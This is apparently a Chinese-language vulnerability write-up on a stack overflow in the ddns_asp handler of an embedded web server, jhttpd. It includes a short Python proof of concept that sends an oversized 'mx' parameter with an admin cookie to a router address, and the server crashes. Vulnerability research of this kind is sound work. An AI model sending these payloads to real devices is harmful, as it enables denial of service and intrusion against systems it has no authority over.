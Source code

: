 在jhttpd的ddns_asp函数中，会获取若干参数

![img](file:///picture\pic1.png) 

![img](file:///picture\pic2.png) 

如果opt=add，那么后面的参数会通过sprintf函数被拼接到栈上变量

![img](file:///picture\pic3.png) 

由于未对参数长度进行校验，导致在拼接时会由于参数过长造成栈溢出漏洞

还是利用FirmAE可以直接进行模拟，连接shell，在里面运行jhttpd

![img](file:///picture\pic4.png) 

然后发送payload

import requests
url="http://192.168.0.1/ddns.asp?opt=add&mx="+'0'*0x1000
headers={"cookie":"wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
response=requests.get(url=url,headers=headers)
print(response.text)

发现jhttpd发生了段错误，由此证明漏洞存在

![img](file:///picture\pic5.png) 
